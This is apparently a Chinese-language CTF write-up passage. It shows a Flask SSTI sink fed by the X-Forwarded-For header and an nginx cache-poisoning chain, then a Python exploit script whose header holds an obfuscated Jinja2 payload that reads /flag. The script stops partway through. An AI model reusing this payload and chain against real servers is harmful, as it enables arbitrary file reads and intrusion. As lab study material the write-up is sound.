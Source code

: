 主要是，nginx缓存机制和Flask ProxyFix的交互

代码审计，在app.py中

```python
@app.after_request
def set_last_ip(response):
    if current_user.is_authenticated:
        current_user.last_ip = request.remote_addr  # 从X-Forwarded-For获取
        db.session.commit()
    return response

@app.route("/ip_detail/<string:username>", methods=["GET"])
def route_ip_detail(username):
    res = requests.get(f"http://127.0.0.1/get_last_ip/{username}")  # 内部请求
    last_ip = res.text  # 获取完整HTML响应
    template = f"""
    <h1>IP Detail</h1>

    <div>{last_ip}</div>    <!-- 直接插入用户可控内容 -->
    <p>Country:{country}</p>

    """
    return render_template_string(template)  # SSTI触发点
```

同时在nginx配置中，可以利用nginx缓存投毒

```python
location ~ .*\.(gif|jpg|jpeg|png|bmp|swf)$ {
    proxy_ignore_headers Cache-Control Expires Vary Set-Cookie;
    proxy_pass http://127.0.0.1:5000;
    proxy_cache static;
    proxy_cache_valid 200 302 30d;  # 缓存30天！
}
```

在登录时投发送ssti，访问/get_last_ip/test.jpg，触发nginx缓存

利用缓存投毒：访问/ip_detail/test.jpg，Flask从被投毒的缓存获取数据

```python
import requests

def main():
    username = "bx33661.jpg"
    base_url = "http://61.147.171.103:64936"
    password = "123456"

    session = requests.Session()

    headers = {
        "X-Forwarded-For": "{%set chr=lipsum.__globals__.__builtins__.chr%}{{lipsum.__globals__.__builtins__.open(chr(47)+dict(flag=a)|first|lower).read()}}"
    }

    registration_data = {
        "username": username,
        "password": password,
        "bio": "bx",
        "submit": "Sign Up"
    }

    login_data = {
        "username": username,
        "password": password,
        "submit": "Log In"
    }
```
